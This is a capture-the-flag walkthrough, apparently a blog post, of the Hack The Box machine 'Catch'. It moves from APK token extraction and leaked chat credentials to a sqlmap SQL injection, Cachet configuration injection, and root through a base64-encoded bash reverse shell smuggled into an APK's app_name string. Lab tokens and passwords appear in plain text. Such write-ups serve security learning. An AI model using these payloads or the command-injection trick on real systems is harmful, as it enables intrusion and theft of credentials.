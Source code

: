```yaml
---
layout: post
title: "HTB Catch"
tags:
    - CTF
    - HTB
---
```


## osint

Starting with an Nmap scan revealed a number of services running on the target.

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?    syn-ack
5000/tcp open  upnp?   syn-ack
```

Interestingly, there were two different Apache services, both on different versions, as well as another two ports that were not identified.

Cookies fetched by an Nmap script showed that there was a Gitea server running on port 3000. But the other ports were still unknown.

```
Set-Cookie: i_like_gitea=a9634c3d8acdc09d; Path=/; HttpOnly
```

Opening each of the pages in a web browser helped to identify these other services.

The main page on port 80 was a simple landing page for 'Catch Global Systems', allowing the user to download an APK file. This would have to be further investigated.

Port 3000 was running Gitea version 1.14.1 with Go 1.16.3 and port 5000 was running [Let's Chat](https://github.com/sdelements/lets-chat). Both of these were locked with passwords and default credentials did not work.

The last page of interest was a monitoring dashboard running on port 8000 which appeared to be based on Cachet 2.4. Some background research found a few different CVEs which could be useful however they all required an authenticated user and would not be useable at this point.


## reverse-engineering

Going back to the APK that was found, Apktool can be used to decompile the binary so that the source code can be browsed in another application such as VSCode.

```bash
apktool d ./catchv1.0.apk
```

According to the landing page that was found earlier, "The future enhancements [include] Lets-chat/Gitea integration", hinting that there could be API keys or hard-coded credentials in the application to integrate these services.

Tokens Found

original/res/values/strings.xml

```
<string name="gitea_token">b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0</string>

<string name="lets_chat_token">NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==</string>

<string name="slack_token">xoxp-23984754863-2348975623103</string>
```

Use Let’s Chat API Token to read channels and messages

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

```bash
[{"id":"61b86b28d984e2451036eb17","slug":"status","name":"Status","description":"Cachet Updates and Maintenance","lastActive":"2021-12-14T10:34:20.749Z","created":"2021-12-14T10:00:08.384Z","owner":"61b86aead984e2451036eb16","private":false,"hasPassword":false,"participants":[]},{"id":"61b8708efe190b466d476bfb","slug":"android_dev","name":"Android Development","description":"Android App Updates, Issues & More","lastActive":"2021-12-14T10:24:21.145Z","created":"2021-12-14T10:23:10.474Z","owner":"61b86aead984e2451036eb16","private":false,"hasPassword":false,"participants":[]},{"id":"61b86b3fd984e2451036eb18","slug":"employees","name":"Employees","description":"New Joinees, Org updates","lastActive":"2021-12-14T10:18:04.710Z","created":"2021-12-14T10:00:31.043Z","owner":"61b86aead984e2451036eb16","private":false,"hasPassword":false,"participants":[]}]
[{"id":"61b8732cfe190b466d476c02","text":"ah sure!","posted":"2021-12-14T10:34:20.749Z","owner":"61b86dbdfe190b466d476bf0","room":"61b86b28d984e2451036eb17"},{"id":"61b8731ffe190b466d476c01","text":"You should actually include this task to your list as well as a part of quarterly audit","posted":"2021-12-14T10:34:07.449Z","owner":"61b86aead984e2451036eb16","room":"61b86b28d984e2451036eb17"},{"id":"61b872b9fe190b466d476c00","text":"Also make sure we've our systems, applications and databases up-to-date.","posted":"2021-12-14T10:32:25.514Z","owner":"61b86dbdfe190b466d476bf0","room":"61b86b28d984e2451036eb17"},{"id":"61b87282fe190b466d476bff","text":"Excellent! ","posted":"2021-12-14T10:31:30.403Z","owner":"61b86aead984e2451036eb16","room":"61b86b28d984e2451036eb17"},{"id":"61b87277fe190b466d476bfe","text":"Why not. We've this in our todo list for next quarter","posted":"2021-12-14T10:31:19.094Z","owner":"61b86dbdfe190b466d476bf0","room":"61b86b28d984e2451036eb17"},{"id":"61b87241fe190b466d476bfd","text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ","posted":"2021-12-14T10:30:25.108Z","owner":"61b86aead984e2451036eb16","room":"61b86b28d984e2451036eb17"},{"id":"61b8702dfe190b466d476bfa","text":"Here are the credentials `john :  E}V!mywu_69T4C}W`","posted":"2021-12-14T10:21:33.859Z","owner":"61b86f15fe190b466d476bf5","room":"61b86b28d984e2451036eb17"},{"id":"61b87010fe190b466d476bf9","text":"Sure one sec.","posted":"2021-12-14T10:21:04.635Z","owner":"61b86f15fe190b466d476bf5","room":"61b86b28d984e2451036eb17"},{"id":"61b86fb1fe190b466d476bf8","text":"Can you create an account for me ? ","posted":"2021-12-14T10:19:29.677Z","owner":"61b86dbdfe190b466d476bf0","room":"61b86b28d984e2451036eb17"},{"id":"61b86f4dfe190b466d476bf6","text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ","posted":"2021-12-14T10:17:49.761Z","owner":"61b86f15fe190b466d476bf5","room":"61b86b28d984e2451036eb17"}]
```

And grab list of users

```bash
[{"id":"61b86aead984e2451036eb16","firstName":"Administrator","lastName":"NA","username":"admin","displayName":"Admin","avatar":"e2b5310ec47bba317c5f1b5889e96f04","openRooms":["61b86b28d984e2451036eb17","61b86b3fd984e2451036eb18","61b8708efe190b466d476bfb"]},{"id":"61b86dbdfe190b466d476bf0","firstName":"John","lastName":"Smith","username":"john","displayName":"John","avatar":"f5504305b704452bba9c94e228f271c4","openRooms":["61b86b3fd984e2451036eb18","61b86b28d984e2451036eb17"]},{"id":"61b86e40fe190b466d476bf2","firstName":"Will","lastName":"Robinson","username":"will","displayName":"Will","avatar":"7c6143461e935a67981cc292e53c58fc","openRooms":["61b86b3fd984e2451036eb18","61b86b28d984e2451036eb17"]},{"id":"61b86f15fe190b466d476bf5","firstName":"Lucas","lastName":"NA","username":"lucas","displayName":"Lucas","avatar":"b36396794553376673623dc0f6dec9bb","openRooms":["61b86b28d984e2451036eb17","61b86b3fd984e2451036eb18"]}]
```

Found credentials for the status domain

```bash
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
```

Use SQL Injection with sqlmap to dump api keys

```bash
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump

+----------------------+----------+
| api_key              | username |
+----------------------+----------+
| 7GVCqTY5abrox48Nct8j | john     |
| rMSN8kJN9TPADl2cWv8N | admin    |
+----------------------+----------+
```

[https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/)

Configuration Injection in Settings > Mail > ‘Mail From Address’

${DB_USERNAME} = will

${DB_PASSWORD} = s2#4Fg0_%3!

SSH as will

```bash
User Flag: 794e64d1eb9b77178f53792d5a0b60e8
```

Modify and recompile APK file with reverse shell shellcode

```bash
Strings.xml
<string name="app_name">Catch; echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuOTgvOTAwMSAwPCYxIDI+JjEK | base64 -d | bash -i</string>
```

Upload to server which will run it as a cronjob and give privilege escalation

```bash
nc -lvp 9001
scp out.apk will@10.10.11.150:/opt/mdm/apk_bin/
```

```bash
listening on [any] 9001 ...
connect to [10.10.14.98] from status.catch.htb [10.10.11.150] 36122

> id
uid=0(root) gid=0(root) groups=0(root)
> ls
Catch
lets-chat
mdm
reset.sh
root.txt
run.sh
```